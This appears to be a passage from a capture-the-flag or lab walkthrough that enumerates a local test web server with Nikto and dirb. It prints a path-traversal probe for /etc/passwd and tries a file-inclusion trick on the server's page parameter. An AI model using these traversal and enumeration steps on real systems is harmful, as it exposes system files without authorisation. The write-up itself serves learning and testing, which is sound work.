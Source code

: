 <p>If you don't know what to do, do a Nikto scan! </p>

{% highlight bash %}

root@kali:~# nikto -h 192.168.56.101:60080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.101
+ Target Hostname:    192.168.56.101
+ Target Port:        60080
+ Start Time:         2017-07-15 08:28:56 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /index.php?page=../../../../../../../../../../etc/passwd: The PHP-Nuke Rocket add-in is vulnerable to file traversal, allowing an attacker to view any file on the host. (probably Rocket, but could be any index.php)
+ Server leaks inodes via ETags, header found with file /icons/README, fields: 0x13f4 0x438c034968a80 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7537 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2017-07-15 08:29:23 (GMT-4) (27 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

{% endhighlight %}

<p>Hey, it's the same vulnerability as in the previous page. Let's exploit it once again. </p>

{% highlight html %}
http://192.168.56.101:60080/index.php?page=index.php

<h2>Dude, <em>bobby</em> what are you trying over here?!</h2>
{% endhighlight %}

<p>I'm running a dirbuster! </p>

{% highlight bash %}

root@kali:~# dirb http://192.168.56.101:60080/?page= /usr/share/dirb/wordlists/big.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Jul 15 08:36:59 2017
URL_BASE: http://192.168.56.101:60080/?page=
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://192.168.56.101:60080/?page= ----
+ http://192.168.56.101:60080/?page=blacklist (CODE:200|SIZE:992)              
+ http://192.168.56.101:60080/?page=cgi-bin/ (CODE:200|SIZE:898)               
+ http://192.168.56.101:60080/?page=contact (CODE:200|SIZE:895)                
+ http://192.168.56.101:60080/?page=home (CODE:200|SIZE:1145)                  
+ http://192.168.56.101:60080/?page=index (CODE:200|SIZE:1360)                 
+ http://192.168.56.101:60080/?page=mailer (CODE:200|SIZE:1083)                
                                                                               
-----------------
